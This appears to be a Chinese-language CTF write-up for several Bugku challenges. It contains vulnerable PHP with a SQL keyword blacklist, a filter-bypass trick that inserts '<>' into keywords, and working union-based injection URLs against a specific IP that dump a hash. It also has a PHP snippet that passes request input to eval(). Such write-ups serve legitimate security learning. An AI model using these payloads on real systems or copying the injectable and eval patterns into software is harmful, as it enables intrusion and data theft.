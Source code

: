 window中在hosts上添加下面一条解析语句，访问该域名，即可得到答案
```bash
120.24.86.145 flag.bugku.com
```
# sql注入1
部分源码
```bash
//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
```
发现//xss过滤,会将<>置换掉，从而实现关键字绕过
```bash
$id = strip_tags($id);
```
查看字段数
```bash
http://103.238.227.13:10087/?id=1 o<>rder by 2 --+
```
判断显示位
```bash
http://103.238.227.13:10087/?id=1 un<>ion selec<>t 1,2 --+
```
脱裤
```bash
http://103.238.227.13:10087/?id=1 un<>ion selec<>t 1, (selec<>t hash fro<>m `key` where id=1) %23
```
# 你必须让他停下来
禁止javascript，通过bp截包，不断的发送请求，就会得到flag
# 本地文件包含
```bash
<?php 
    include "waf.php"; 
    include "flag.php"; 
    $a = @$_REQUEST['hello']; 
    eval( "var_dump($a);"); 
    show_source(__FILE__); 
?>
```
